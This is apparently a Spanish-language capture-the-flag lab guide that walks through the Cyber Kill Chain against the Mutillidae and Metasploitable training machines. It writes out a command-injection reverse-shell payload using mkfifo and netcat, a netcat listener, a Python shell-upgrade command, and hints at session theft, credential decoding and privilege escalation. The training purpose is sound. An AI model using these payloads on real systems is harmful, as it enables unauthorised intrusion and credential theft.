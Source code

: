 ### Reto 2

## Objetivo

	¿Cual es el apellido Jakub?

## Referencias

## CEH v10

- Session Hijacking

## OWASP10.2017

- A1* Injection (Command)
- A6* Security Misconfiguration

** Antes de iniciar, recuerda hacer prueba de red y verificar los accesos a Mutillidae e Internet.

### CyberKillChain

## Reconocimento: 
- Reutiliza el reconocimiento anterior
- Jakub debe estar enlazado con Metasploitable
- Accede a Multillidae http://metasploitable/mutillidae

## Militarizacion:
- Ciclo del error: 
  - Reutiliza exploits funcionales (SQL injection).
  - Reutiliza el commando & control anterior.
  - Valida las versiones y los exploits a utilizar ¿Estas de acuerdo?
				 
- Exceso de seguridad (Totem): 
  - Reutiliza la confianza en una app vulnerable.
  - Confia en que el usuario realizara la busqueda correcta de DNS, y no ejecutara algun comando ¿Estas de acuerdo?	
  - Prepara el exploit correcto, para obtener un shell remoto, recuerda que dependes lo que acepte el servidor.
	** Netcat puede ser una opcion.

## Entrega:
- En espera de acciones en login.php
- En espera de acciones para acceder por cookies
- Valida la entrega en versiones vulnerables 
- Entrega en dns.lookup.php
- Prepara la recepcion en tu kali con
	$ nc -lvnp 1234
		
## Explotacion:
- Ingresa en la entrega dns-lookup.php
	&& rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc metasploitable 1234 >/tmp/f
- Obten un shell interactivo utilizando python.
	$ python -c 'import pty; pty.spawn("/bin/bash")'
- Busca algun dato sobre Jakub en la carpeta.
- Consigue el apellido haciendo Dorking, tendras el objetivo.
	
## Instalación:
- No se puede ejecutar nada desde www-data.
- Busca un archivo que te permita robar alguna sesion del servidor.
	** Quiza las siglas del equipo donde jugo su final de Champions ayude.
- Obtener la clave cifrada y prueba en CyberChef de github
	** Base64 / Hex / Base64
- Ingresa a msfadmin con:
	$ sudo 'usuario encontrado'
- Y la contraseña para tener acceso, nos instalaremos aqui, no generamos backdoor.
	
## Comando & Control:
- Salir de la sesion.
- Ingresa en la cuenta con las credenciales de SSH, y prueba el acceso a root.
		
## Acciones en el objetivo:
- En lista las versiones vulnerables que validaste en la entrega, y prepara los exploits.
- Si el login.php es vulnerable a SQL Injection, el login de user-info lo será? Qué obtenemos?
